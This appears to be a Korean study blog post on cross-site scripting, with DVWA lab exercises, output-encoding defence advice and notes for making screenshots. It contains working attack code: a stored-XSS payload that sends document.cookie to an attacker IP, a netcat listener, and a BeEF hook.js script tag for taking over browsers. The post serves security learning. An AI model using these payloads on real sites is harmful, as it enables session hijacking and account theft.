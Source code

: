 ```yaml
---
layout: post
title: "XSS (Cross-Site Scripting) 공부"
date: 2025-09-15 17:00:00 +0900
categories: Study 웹 해킹
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 취약점 존재 증명이나 세션 쿠키 탈취 등 다양한 목적으로 사용될 수 있다.

---

### 2. 기본 유형 및 실습

#### **Reflected XSS (반사형)**
공격 스크립트가 URL 파라미터 등을 통해 서버로 전달된 후, 서버가 그 값을 응답 페이지에 그대로 포함하여 사용자에게 돌려줄 때 발생한다.

*   **DVWA 실습:**
    `XSS (Reflected)` 페이지에서 `name` 파라미터 값으로 `<script>alert('Reflected XSS')</script>`를 주입하면 서버 응답에 이 스크립트가 포함되어 경고창이 실행된다.

    [여기에 Reflected XSS 공격 성공 화면 스크린샷 삽입]

#### **Stored XSS (저장형)**
공격 스크립트가 게시판이나 방명록처럼 서버의 데이터베이스에 영구적으로 저장될 때 발생한다. 해당 페이지를 방문하는 모든 사용자가 공격의 영향을 받는다.

*   **DVWA 실습:**
    `XSS (Stored)` 페이지의 방명록에 `<script>alert('Stored XSS')</script>`를 포함한 메시지를 남기면 해당 스크립트가 데이터베이스에 저장된다. 이후 이 페이지를 방문하는 모든 사용자의 브라우저에서 경고창이 실행된다.

    [여기에 Stored XSS 공격 성공 화면 스크린샷 삽입]

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

#### **1. 공격자 리스너**
탈취한 쿠키를 수신하기 위해 공격자 PC에 서버가 필요하다. [보안 분석을 위한 리눅스 명령어 공부](https://hamap0.github.io/study/시스템-해킹/2025/09/14/보안-분석을-위한-리눅스-명령어-공부.html)에서 다룬 `netcat`을 이용해 특정 포트에서 연결을 대기하는 리스너를 실행할 수 있다.
```bash
# 80번 포트에서 연결을 대기하며 상세 정보를 출력
sudo nc -lvnp 80
```

#### **2. 쿠키 탈취 페이로드**
피해자의 브라우저에서 `document.cookie` 값을 읽어와 공격자 서버 `192.9.200.12`로 전송하는 스크립트이다.
```javascript
<script>
  document.location='http://192.9.200.12/?cookie=' + btoa(document.cookie);
</script>
```
*   `btoa()`: 쿠키 값에 포함될 수 있는 특수문자로 인해 URL이 깨지는 것을 방지하기 위해 Base64로 인코딩한다.

#### **3. 결과 확인**
이 페이로드를 Stored XSS 취약점이 있는 방명록에 삽입하면 해당 페이지를 방문하는 사용자의 브라우저는 스크립트를 실행한다. 그 결과 공격자의 `netcat` 리스너에는 피해자의 쿠키 값이 포함된 HTTP GET 요청이 수신된다.

[여기에 쿠키 값이 수신된 netcat 터미널 스크린샷 삽입]

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

#### **1. BeEF 실행 및 Hook URL 확인**
1.  공격자 PC에서 BeEF 프레임워크를 실행한다.
    ```bash
    sudo beef-xss
    ```
2.  BeEF의 관리자 페이지(UI)에 접속하여 로그인한다.
3.  관리자 페이지에 표시된 **Hook URL** (예: `<script src="http://192.9.200.12:3000/hook.js"></script>`)을 복사한다. 이 스크립트가 피해자의 브라우저를 제어하는 핵심 코드이다.

#### **2. Hook 스크립트 주입**
1.  복사한 Hook URL 스크립트 전체를 Stored XSS 취약점이 있는 DVWA 방명록에 삽입하고 게시글을 등록한다.

#### **3. 브라우저 Hooking 및 제어**
1.  피해자가 해당 방명록 페이지를 방문하면 브라우저는 자신도 모르게 **`hook.js`** 스크립트를 실행하고 공격자의 BeEF 서버에 연결된다.
2.  공격자는 BeEF 관리자 페이지의 `Online Browsers` 목록에서 연결된 피해자의 브라우저(Hooked Browser)를 확인할 수 있다.
3.  공격자는 `Commands` 탭의 다양한 모듈을 사용하여 피해자 브라우저를 대상으로 추가 공격을 수행할 수 있다.
    *   **Get Cookies**: 피해자의 쿠키 정보를 가져온다.
    *   **Redirect Browser**: 피해자의 브라우저를 특정 피싱 사이트로 강제 이동시킨다.
    *   **Create Alert Dialog**: 피해자의 화면에 임의의 경고창을 띄운다.

---

### 5. 방어 방안: 출력 인코딩

XSS 공격의 근본적인 원인은 사용자가 입력한 데이터를 서버가 그대로 HTML의 일부로 해석하여 출력하기 때문이다. 이를 막는 가장 효과적인 방법은 **출력 인코딩(Output Encoding)**이다.

사용자가 입력한 문자열에 포함된 `<`, `>` 같은 특수문자를 브라우저가 HTML 태그로 해석하지 못하도록 아래와 같이 안전한 문자(HTML Entities)로 변환하여 출력해야 한다.
*   `<` → `&lt;`
*   `>` → `&gt;`

이렇게 인코딩된 문자열은 브라우저 화면에는 원래의 꺾쇠 기호로 보이지만 HTML 파서는 이를 태그의 시작과 끝이 아닌 단순한 텍스트로만 인식하므로 스크립트가 실행되지 않는다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **이미지 1 제작 (Reflected XSS)**

1.  웹 브라우저에서 DVWA의 `XSS (Reflected)` 페이지로 이동합니다.
2.  입력창에 `<script>alert('Reflected XSS')</script>`를 입력하고 `Submit` 버튼을 클릭합니다.
3.  화면에 "Hello" 라는 문구와 함께 자바스크립트 경고창(alert)이 나타납니다.
4.  이 상태의 브라우저 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  두 부분에 하이라이트를 적용합니다.
    *   **원인:** 브라우저 주소창의 URL에 포함된 스크립트 구문 (`?name=<script>...`)
    *   **결과:** 화면 중앙에 나타난 경고창(`Reflected XSS`)
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 2 제작 (Stored XSS)**

1.  DVWA의 `XSS (Stored)` 페이지로 이동합니다.
2.  `Message` 입력창에 `<script>alert('Stored XSS')</script>`를 포함한 내용을 입력하고 `Sign Guestbook` 버튼을 클릭합니다.
3.  페이지가 새로고침되면서 방금 제출한 스크립트가 실행되어 경고창이 나타납니다.
4.  방명록 목록에 스크립트가 포함된 게시글이 보이고 동시에 경고창이 떠 있는 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  두 부분에 하이라이트를 적용합니다.
    *   **원인:** 방명록에 저장되어 출력된 스크립트가 포함된 게시글
    *   **결과:** 그로 인해 실행된 경고창(`Stored XSS`)
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 3 제작 (쿠키 값 수신)**

1.  (준비) **공격자 PC의 터미널**과 **피해자의 웹 브라우저**를 준비합니다.
2.  **공격자 PC 터미널**에서 `sudo nc -lvnp 80` 명령어를 실행하여 리스너를 시작합니다.
3.  **피해자의 웹 브라우저**에서 DVWA의 `XSS (Stored)` 페이지로 이동하여 쿠키 탈취용 `<script>` 페이로드를 방명록에 입력하고 `Sign Guestbook` 버튼을 클릭합니다.
4.  **공격자 PC 터미널**을 확인하면 브라우저로부터의 HTTP 요청이 수신되어 아래와 같은 텍스트가 출력됩니다.
    ```
    GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9... HTTP/1.1
    Host: 192.9.200.12
    ...
    ```
5.  이 HTTP 요청 정보가 모두 출력된 **공격자 PC 터미널** 화면 전체를 스크린샷으로 찍습니다.
6.  이미지 편집 프로그램을 사용하여 `/?cookie=` 뒤에 따라오는 Base64로 인코딩된 긴 문자열 부분에 명확하게 하이라이트를 적용합니다.
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 4 제작 (BeEF 연동 성공)**

이 이미지는 Stored XSS를 통해 피해자의 브라우저 제어권을 획득한 상황을 보여준다.

1.  **BeEF 관리자 페이지 캡처:**
    *   `4. 심화 활용 2`의 3단계 과정에서, 피해자의 브라우저가 `Online Browsers` 목록에 나타난 BeEF 관리자 페이지 화면을 스크린샷으로 찍는다.
2.  **명령 실행 결과 캡처:**
    *   `Commands` 탭에서 `Get Cookies`나 `Create Alert Dialog` 같은 간단한 명령을 실행하고, 그 결과가 표시된 화면을 스크린샷으로 찍는다.
3.  **최종 이미지 편집:**
    *   두 개의 스크린샷을 하나로 합치거나, 가장 핵심적인 화면(피해자 브라우저가 목록에 나타난 화면)을 선택한다.
    *   이미지에서 `Online Browsers` 목록에 나타난 피해자의 IP 주소와 OS/브라우저 아이콘에 명확한 하이라이트를 적용한다.
    *   만약 명령 실행 결과 이미지를 사용한다면, 실행한 `Module Name`과 그 `Command Results` 부분에 하이라이트를 적용한다.
    *   수정된 이미지를 게시글에 삽입한다.